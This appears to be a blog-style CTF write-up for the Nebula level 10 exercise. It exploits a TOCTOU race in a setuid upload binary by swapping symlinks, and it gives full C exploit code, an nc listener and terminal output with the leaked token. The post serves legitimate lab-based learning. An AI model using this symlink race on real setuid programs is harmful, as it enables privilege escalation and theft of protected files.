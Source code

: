 ```yaml
---
layout: post
title: "Race condition"
category: CTF, Nebula
---
```


>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; **[Nebula 10](http://exploit-exercises.com/nebula/level09) Agenda**: "The setuid binary at "_/home/flag10/flag10_" will upload any file given, as long as it meets the requirements of the "_access()_" system call"

<center>
	<img src="/images/2015-04-25-race_condition/czLY2.jpg">
</center>
We have a classic [TOCTOU](http://en.wikipedia.org/wiki/Time_of_check_to_time_of_use) issue. There's no need for more explanation, because all things are perfectly fleshed out on the wikipedia. I wrote some anchor point which in order is playing with symlinks replacement until succeed:

{% highlight c linenos %}
/** PWN_10.c **/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <sys/mman.h>

#define BANNER ".oO Oo."
#define MOCKUP "some text"
#define LISTENER "nc -lk 18211"

const int BUFF_SIZE = 64;
static int *is_found = 0;

int check_success(char *banner, char *data) 
{
    return (strstr(banner, BANNER) != NULL)
        && (strstr(data, MOCKUP)   == NULL);
}

void setup_listener() 
{
    char prev_line[BUFF_SIZE];
    char curr_line[BUFF_SIZE];

    FILE *fd = popen(LISTENER, "r");

    while (fgets(curr_line, BUFF_SIZE, fd) != NULL) 
    {
        if (check_success(prev_line, curr_line)) 
        {
            *is_found = 1;
            printf("\n\nThe passprase is: %s\n\n", curr_line);
            pclose(fd);
        }
        strcpy(prev_line, curr_line);
    }
}

void start_race()
{
    while (*is_found == 0) 
    {
        system("ln -sfn /tmp/dummy /tmp/lure");
        sleep(1);
        system("/home/flag10/flag10 /tmp/lure 127.0.0.1 & ln -sfn /home/flag10/token /tmp/lure");
    }
}

int main(int argc, char *argv[]) 
{
    is_found = mmap(NULL, sizeof *is_found, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANONYMOUS, -1, 0);

    pid_t childPID = fork();

    if (childPID == 0) {
        setup_listener();
    } else {
        start_race();
    }

    exit(EXIT_SUCCESS);
}
{% endhighlight %}
Compile, prepare "_/tmp/dummy_", execute and "_Veni Vidi Vici_".
{% highlight sh linenos %}
level10@nebula:~$ gcc -o pnw PWN_10.c
level10@nebula:~$ echo "some text" > /tmp/dummy
level10@nebula:~$ ./pnw
You don't have access to /tmp/lure
Connecting to 127.0.0.1:18211 .. Connected!
Sending file ..

The passprase is: 615a2ce1-b2b5-4c76-8eed-8aa5c4015c27

wrote file!
Connecting to 127.0.0.1:18211 .. level10@nebula:~$ Connected!
Sending file .. wrote file!
{% endhighlight %}